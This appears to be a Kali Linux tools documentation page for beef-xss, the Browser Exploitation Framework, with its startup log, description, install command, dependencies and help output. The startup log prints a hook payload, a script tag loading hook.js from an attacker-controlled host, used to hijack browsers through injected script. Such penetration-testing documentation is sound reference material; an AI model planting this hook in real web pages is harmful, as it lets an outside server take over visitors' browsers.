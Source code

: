 # 🎩 beef-xss

### Screenshots <a href="#screenshots" id="screenshots"></a>

[![beef-xss](<../../.gitbook/assets/beef xss.png>)](<../../.gitbook/assets/beef xss.png>)

### beef Usage Example <a href="#beef-usage-example" id="beef-usage-example"></a>

```
:~# beef-xss
[*] Please wait for the BeEF service to start.
[*]
[*] You might need to refresh your browser once it opens.
[*]
[*]  Web UI: http://127.0.0.1:3000/ui/panel
[*]    Hook: <script src="http://<IP>:3000/hook.js"></script>
[*] Example: <script src="http://127.0.0.1:3000/hook.js"></script>

● beef-xss.service - LSB: BeEF
   Loaded: loaded (/etc/init.d/beef-xss; generated)
   Active: active (running) since Sat 2018-11-24 18:44:53 EST; 5s ago
     Docs: man:systemd-sysv-generator(8)
  Process: 3457 ExecStart=/etc/init.d/beef-xss start (code=exited, status=0/SUCCESS)
    Tasks: 5 (limit: 4665)
   Memory: 151.9M
   CGroup: /system.slice/beef-xss.service
           └─3463 ruby /usr/share/beef-xss/beef

Nov 24 18:44:53 kali systemd[1]: Starting LSB: BeEF...
Nov 24 18:44:53 kali systemd[1]: Started LSB: BeEF.

[*] Opening Web UI (http://127.0.0.1:3000/ui/panel) in: 5... 4... 3... 2... 1...
```

***

\


### Packages and Binaries:

#### beef-xss <a href="#beef-xss" id="beef-xss"></a>

BeEF is short for The Browser Exploitation Framework. It is a penetration testing tool that focuses on the web browser.

Amid growing concerns about web-born attacks against clients, including mobile clients, BeEF allows the professional penetration tester to assess the actual security posture of a target environment by using client-side attack vectors. Unlike other security frameworks, BeEF looks past the hardened network perimeter and client system, and examines exploitability within the context of the one open door: the web browser. BeEF will hook one or more web browsers and use them as beachheads for launching directed command modules and further attacks against the system from within the browser context.

**Installed size:** `19.74 MB`\
**How to install:** `sudo apt install beef-xss`

<details>

<summary>Dependencies:</summary>

* adduser
* lsof
* ruby-ansi
* ruby-async-dns
* ruby-dev
* ruby-em-websocket
* ruby-erubis
* ruby-espeak
* ruby-eventmachine
* ruby-execjs
* ruby-json
* ruby-maxmind-db
* ruby-mime-types
* ruby-msfrpc-client
* ruby-otr-activerecord
* ruby-parseconfig
* ruby-qr4r
* ruby-rack
* ruby-rack-protection
* ruby-rubydns
* ruby-rushover
* ruby-sinatra
* ruby-slack-notifier
* ruby-sqlite3
* ruby-term-ansicolor
* ruby-terser
* ruby-twitter
* ruby-xmlrpc
* ruby-zip
* rubygems-integration
* thin
* xdg-utils

</details>

**beef-xss**

```
:~# beef-xss -h
[-] You are using the Default credentials
[-] (Password must be different from "beef")
[-] Please type a new password for the beef user: 
```

***

**beef-xss-stop**

```
:~# beef-xss-stop -h
* beef-xss.service - beef-xss
     Loaded: loaded (/lib/systemd/system/beef-xss.service; disabled; preset: disabled)
     Active: inactive (dead)
```

***

Updated on: 2022-Nov-16\


***
